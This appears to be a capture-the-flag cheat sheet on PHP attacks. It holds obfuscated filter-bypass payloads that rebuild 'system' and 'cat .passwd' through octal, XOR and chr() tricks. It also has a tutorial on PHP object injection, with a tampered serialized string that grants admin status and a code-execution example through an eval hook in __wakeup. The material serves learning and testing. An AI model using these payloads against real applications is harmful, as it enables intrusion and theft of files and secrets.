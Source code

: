 # PHP  vuln

## PHP regex bypass

- With octal encoder https://cryptii.com/pipes/text-octal

		file_get_contents(".passwd") -> "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\056\160\141\163\163\167\144")

- xor operation

```python
import string
 
	if __name__ == "__main__":
    		s = string.printable[62:62+32] ##    !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
    		s1 = string.printable[:62]     ##    0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
    		for i in s:
        		for j in s:
            			x = chr(ord(i)^ord(j))
            			if x in s1+'_':
                			print '{0}\t{1}\t{2}'.format(i,j,x)
```
	
	$_ = "@" ^ "!" //a
                            	
- Convert to phpnonalpha

	Open https://hackvertor.co.uk/public# and use phpnonalpha encoder

- Unicode encoder

		$_=("#"^"@").('('^'@').('2'^'@');  // 'c' + 'h' + 'r'
 		$__=$_(115).$_(121).$_(115).$_(116).$_(101).$_(109); // here system
		$___=$_(99).$_(97).$_(116)." .".$_(112).$_(97).$_(115).$_(115).$_(119).$_(100); //here cat .passwd
 		$__($___);

## PHP object

Serialization in PHP
To understand PHP object injections, you have to first understand how PHP serialize and deserialize objects.
Serializing
When you need to store a PHP object or transfer it over the network, you use serialize() to pack it up.
serialize(): PHP object -> plain old string that represents the obj
When you need to use that data, use unserialize() to unpack and get the underlying object.
unserialize(): string containing object data -> original object
For example, this code snippet will serialize the object “user”.

```php
<?php
	class User{
		public $username;
		public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	echo serialize($user);
?>

```
Run the code snippet, and you will get the serialized string that represents the “user” object.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Serialized string structure
Let’s break this serialized string down! The basic structure of a PHP serialized string is “data type: data”. For example, “b” represents a boolean.
	
	b:THE_BOOLEAN;
“i” represents an integer.
	
	i:THE_INTEGER;
“d” represents a float.
	
	d:THE_FLOAT;
“s” represents a string.
	
	s:LENTH_OF_STRING:"ACTUAL_STRING";
“a” represents an array.
	
	a:NUMBER_OF_ELEMENTS:{ELEMENTS}
And finally, “O” represents an object.
	
	O:LENTH_OF_NAME:"CLASS_NAME":NUMBER_OF_PROPERTIES:{PROPERTIES}
So we can see our serialized string here represents an object of the class “User”. It has two properties. The first property has the name “username” and the value “vickie”. The second property has the name “status” and the value “not admin”.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Deserializing
When you are ready to operate on the object again, you can deserialize the string with unserialize().

```php
<?php
	class User{
		public $username;
		public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	$serialized_string = serialize($user);
	$unserialized_data = unserialize($serialized_string);
	var_dump($unserialized_data);
	var_dump($unserialized_data["status"]);
?>
```
	
Unserialize() under the hood
So how does unserialize() work under the hood? And why does it lead to vulnerabilities?
What are PHP magic methods?

PHP magic methods are function names in PHP that have “magical” properties. Learn more about them here.

The magic methods that are relevant for us now are __wakeup() and __destruct(). If the class of the serialized object implements any method named __wakeup() and __destruct(), these methods will be executed automatically when unserialize() is called on an object.

Step 1: Object instantiation
Instantiation is when the program creates an instance of a class in memory. That is what unserialize() does. It takes the serialized string, which specifies the class and the properties of that object. With that data, unserialize() creates a copy of the originally serialized object.
It will then search for a function named __wakeup(), and execute code in that function. __wakeup() reconstructs any resources that the object may have. It is used to reestablish any database connections that have been lost during serialization and perform other reinitialization tasks.

Step 2: Program uses the object
The program operates on the object and uses it to perform other actions.

Step 3: Object destruction
Finally, when no reference to the deserialized object instance exists, __destruct() is called to clean up the object.
Exploiting PHP deserialization
When you control a serialized object that is passed into unserialize(), you control the properties of the created object. You might also be able to hijack the flow of the application by controlling the values passed into automatically executed methods like __wakeup() or __destruct().
This is called a PHP object injection. PHP object injection can lead to variable manipulation, code execution, SQL injection, path traversal, or DoS.
Controlling variable values
One possible way of exploiting a PHP object injection vulnerability is variable manipulation. For example, you can mess with the values encoded in the serialized string.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
In this serialize string, you can try to change the value of “status” to “admin”, and see if the application grants you admin privileges.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:5:"admin";}
Getting to RCE
It’s even possible to achieve RCE using PHP object injection! For example, consider this vulnerable code snippet: (taken from https://www.owasp.org/index.php/PHP_Object_Injection)

```php
class Example2
	{
	  private $hook;   
	  function __construct(){
	      // some PHP code...
	  }   
	  function __wakeup(){
	      if (isset($this->hook)) eval($this->hook);
	  }
	}
// some PHP code...
	$user_data = unserialize($_COOKIE['data']);
// some PHP code...
```

You can achieve RCE using this deserialization flaw because a user-provided object is passed into unserialize. And the class Example2 has a magic function that runs eval() on user-provided input.
To exploit this RCE, you simply have to set your data cookie to a serialized Example2 object with the hook property set to whatever PHP code you want. You can generate the serialized object using the following code snippet:

```php
class Example2
	{
	   private $hook = "phpinfo();";
	}
```
print urlencode(serialize(new Example2));
// We need to use URL encoding since we are injecting the object via a URL.
